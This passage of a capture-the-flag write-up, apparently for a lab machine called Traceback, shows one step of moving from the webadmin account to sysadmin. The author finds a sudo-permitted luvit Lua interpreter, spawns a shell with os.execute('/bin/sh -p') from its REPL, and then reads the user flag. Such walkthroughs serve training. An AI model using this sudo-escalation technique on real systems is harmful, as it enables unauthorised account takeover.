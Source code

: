 Command doesn't work
```
lua min@traceback:/home/webadmin$ sudo -u sysadmin /home/sysadmin/luvit privesc.
Uncaught exception:
[string "bundle:deps/require.lua"]:279: No such module '/home/webadmin/privesc.lua' in 'bundle:/main.lua'
module '/home/webadmin/privesc.lua' not found:
	no field package.preload['/home/webadmin/privesc.lua']
	no file './/home/webadmin/privesc/lua.lua'
```

Why? We get it when we read `/home/webadmin/.bash_history`. It was a custom script which was deleted after its execution.
```text
webadmin@traceback:/home/webadmin$ cat .bash_history 
ls -la
sudo -l
nano privesc.lua
sudo -u sysadmin /home/sysadmin/luvit privesc.lua 
rm privesc.lua
logout
```

Intrestingly, to understand the working of this tool. I tried using some common flags such as `-help`. Here, we can drop in to repel and execute `os.execute("/bin/sh -p")`. `-p` is to preserve privilege, it might work without it but I didn't try that.

```bash
webadmin@traceback:/home/webadmin$ sudo -u sysadmin /home/sysadmin/luvit --help
Usage: /home/sysadmin/luvit [options] script.lua [arguments]

  Options:
    -h, --help          Print this help screen.
    -v, --version       Print the version.
    -e code_chunk       Evaluate code chunk and print result.
    -i, --interactive   Enter interactive repl after executing script.
    -n, --no-color      Disable colors.
    -c, --16-colors     Use simple ANSI colors
    -C, --256-colors    Use 256-mode ANSI colors
                        (Note, if no script is provided, a repl is run instead.)
  
```
### sysadmin

```bash
webadmin@traceback:/home/webadmin$ sudo -u sysadmin /home/sysadmin/luvit
Welcome to the Luvit repl!
> os.execute("/bin/sh -p")
$ whoami
sysadmin
```

### UserFlag
```bash
$ cat user.txt
897a227b98a20eebf1bf010077eb529d
```
